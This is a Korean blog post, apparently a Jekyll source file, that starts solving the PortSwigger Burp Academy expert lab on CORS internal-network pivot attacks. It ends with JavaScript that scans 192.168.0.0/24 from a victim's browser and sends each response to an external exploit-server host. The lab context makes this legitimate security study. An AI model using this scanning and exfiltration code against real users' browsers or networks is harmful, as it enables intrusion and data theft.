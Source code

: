 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: CORS vulnerability with internal network pivot attack"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, CORS취약점]
toc: true
last_modified_at: 2023-07-21 10:02:00 +0900
---
```


# 개요
- [CORS]({% post_url 2023-06-28-CORS-basic %})에 관련된 취약점이다. 
- CORS 취약점에 대한 설명은 [여기]({% post_url 2023-06-27-burp-academy-cors %}) 
- 문제 주소: : https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack
- 난이도: EXPERT (어려움)


# 문제설명
- 서버에는 모든 내부 네트워크 오리진을 신뢰하는 CORS 취약점이 있다. 
- 이 문제를 풀려면 몇가지 스텝을 밟아야 한다. 
- 먼저 내부 네트워크(192.168.0.0/24, port 8080) 에 접근하는  자바스크립트 코드를 만들어야 한다. 
- 그리고 CORS를 악용해서 calros 유저를 삭제하면 된다. 

```
This website has an insecure CORS configuration in that it trusts all internal network origins.

This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user carlos.
```

# 풀이 

## 풀이방법 생각
- victim이 실행할 코드는 내부 네트워크(192.168.0.0/24, port 8080)로 향해야 한다. 
- 그리고 해당 내부 네트워크로부터 문제서버로 접근하도록 만들어야 한다. (어떤 취약점이 있을 것 같다.)
- 일단 내부 네트워크 서버의 응답 페이지를 확인해보자. 뭔가 사용할 수 있는게 있을 것 같다. 
- 그런데 내부 네트워크 대역이 192.168.0.0/24 이면, 192.168.0.1 부터 192.168.0.255 까지 있다. 255개나 되는 IP주소가 존재하는지 일일히 테스트해봐야 하나? 
- 192.168.0.1 부터 192.168.0.255 까지 IP주소를 사용하는 서버가 존재하는지 체크하는 자바스크립트를 짜면 될 것 같다. 예를들면 다음과 같다. 

```js
<html>
<script>
for (let i=1; i < 256; i++){
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get',`http://192.168.0.${i}:8080`); 
   req.send();

   function reqListener() {
      location=`https://exploit-0a320061038b7833846208ec017b0096.exploit-server.net/${i}?key=`+this.responseText;
   };
}
</script>
</html>
```
